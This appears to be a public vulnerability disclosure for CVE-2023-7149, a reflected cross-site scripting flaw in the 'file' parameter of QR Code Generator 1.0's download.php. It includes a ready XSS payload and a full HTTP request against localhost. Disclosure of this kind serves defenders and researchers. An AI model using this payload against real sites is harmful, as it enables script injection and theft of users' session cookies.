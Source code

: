 # CVE-2023-7149_QR_Code_Generator-Reflected_Cross_Site_Scripting
+ **Exploit Title:** CVE-2023-7149_QR_Code_Generator-Reflected_Cross_Site_Scripting
+ **Date:** 2023-27-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/qr-code-generator-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/QR_CODE_GENERATOR_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7149

## References: 
+ **CVE-2023-7149:** https://vuldb.com/?id.249153
+ https://www.cve.org/CVERecord?id=CVE-2023-7149

## Description:
QR Code Generator 1.0 allows Reflected Cross-site Scripting via parameter 'file' in "/qr-codegen/download.php?file=author.png". QR Code Generator is vulnerable to a cross-site scripting vulnerability because it fails to sufficiently sanitize user-supplied data.
An attacker may leverage this issue to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. This may allow the attacker to steal cookie-based authentication credentials and launch other attacks.

## Proof of Concept:
+ Copy the link address of "Download QR Code": "http://localhost/qr-codegen/download.php?file=author.png"
+ And navigate to `http://localhost/qr-codegen/download.php?file=author.png"><iMg src=N onerror=alert(document.domain)>`
+ Use this payload: `"><iMg src=N onerror=alert(document.domain)>`
+ The XSS will be triggered.
+ Alerts will pop-up.
+ Example request for 'file' parameter:
```
GET /qr-codegen/download.php?file=author.png"><iMg src=N onerror=alert(document.domain)> HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Referer: http://localhost/qr-codegen/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
```

![1](https://github.com/h4md153v63n/CVEs/assets/5091265/6f94b7e5-6ca1-4818-9a32-9bd990afa2ef)
<br>
<br>
![1-2](https://github.com/h4md153v63n/CVEs/assets/5091265/c9a8d093-c58a-4e6c-a848-92cfc4672ca8)
